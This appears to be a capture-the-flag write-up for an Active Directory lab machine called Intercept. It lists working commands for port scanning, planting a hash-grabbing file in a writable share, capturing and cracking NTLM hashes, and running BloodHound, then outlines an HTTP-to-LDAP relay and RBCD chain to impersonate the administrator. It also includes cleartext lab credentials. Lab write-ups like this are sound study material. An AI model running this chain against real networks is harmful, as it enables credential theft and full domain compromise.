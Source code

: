 
![](Intercept_Cover.png)



```
Host is up (0.039s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server


Host is up (0.038s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```


```
└─# crackmapexec smb ip_                                  
SMB         10.10.240.102   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.240.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
```


### INITIAL_ACCESS


There's Guest level access in WS01 , Where guest can read/write in dev shared workspace.


![](Guest_Access.png)


![](Guest_Share.png)

Cool ! The user's gonna check the shares regularly ! Now, we can do some attacks like : 
--> Grab Ntlm hash and crack ;
--> Relay the hash and authenticate 
	--> smb relaying 
	--> ldap relaying



```
└─# python hashgrab.py 10.8.0.148 grab
```

![](hash_grab.png)

Then Upload @grab.url to the victim share , and wait for the interaction opening Responder !

```
└─# responder -I tun0 -v 
```


![](Grabbed_hash.png)

Then , Just crack the credentials !

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt kathryn.spencer_hash 
```

![](Cracked_Hash.png)



Cool ! 
--> Now lets check the access of this user ! 
--> Run BloodHound !

```
└─# crackmapexec smb ip_ -u Kathryn.Spencer -p Chocolate1
```

```
└─# bloodhound-python --username Kathryn.Spencer --password Chocolate1 --domain intercept.vl --nameserver 10.10.240.101 --domain-controller DC01.intercept.vl --collectionmethod all --zip
```


### WebDav HTTP Relaying

Let’s think, how could we take over WS01? We are `not a local admin` and we `cannot RDP`… Coerce attacks are a real nuisance nowadays, however, `SMB signing is enforced` on the Domain Controller, this `completely mitigates` any `SMB -> SMB` or `SMB -> LDAP` relaying to the DC.

However, since this is a workstation, all Windows 10 machines come pre-installed with the `WebClient service`, it may not be active by default, but there are ways to trigger it. If WebClient was running on that computer, somehow coercing the computer account to authenticate back to us via WebDav, could allow us relaying from `HTTP -> LDAP`, even if SMB signing is `enabled`, but we would also need `LDAP signing to not be enforced`. Let’s check it out.

We can use CrackMapExec’s webdav and ldap-checker modules to verify it, and it looks like the `WebClient is running`!

 [Youtube](https://www.youtube.com/watch?v=axPkf_kLpMA)


```
└─# crackmapexec smb ip_ -u Kathryn.Spencer -p Chocolate1 -M webdav
```

![](Web_Client.png)


```
└─# crackmapexec ldap dc01 -u Kathryn.Spencer -p Chocolate1 -M ldap-checker
```

![](Ldap_Signing.png)




1 --> add our host to their dns entry ;
2 --> start responder [ turn off http and smb ]
3 --> start ntlmrelay [--delegate-access ]
4 --> PetitPotam or printerbug [attack the webclient .]
5 --> Get HTTP --> LDAP access [ RBCD / S4u Proxy attack]
6 --> Generate Tickets impersonating administrator !



Simon.Bowen   ::   b0OI_fHO859+Aw
